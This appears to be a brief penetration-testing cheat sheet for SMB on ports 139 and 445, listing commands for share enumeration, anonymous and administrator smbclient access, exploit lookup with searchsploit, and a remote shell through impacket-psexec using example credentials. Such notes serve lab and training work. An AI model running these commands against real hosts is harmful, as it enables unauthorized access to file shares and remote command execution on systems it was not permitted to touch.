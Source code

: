 # Port 139/tcp AND 445/udp
## Stardard usage
 - smb (samba)
<hr>

#### List all share
```bash
smbmap -H $targetip
```

#### Guest user
```
anonymous:anonymous
```

#### Search for exploit
```bash
searchsploit samba 3.0
```

#### Access share that no required password
```bash
smbclient //10.129.95.187/share -U " "%" "
```

### Access share with user
```bash
smbclient \\\\$targetip\\C$ -U administrator
```

### Create reverse shell
```bash
impacket-psexec 'abcd:!passWord@10.129.32.122'
```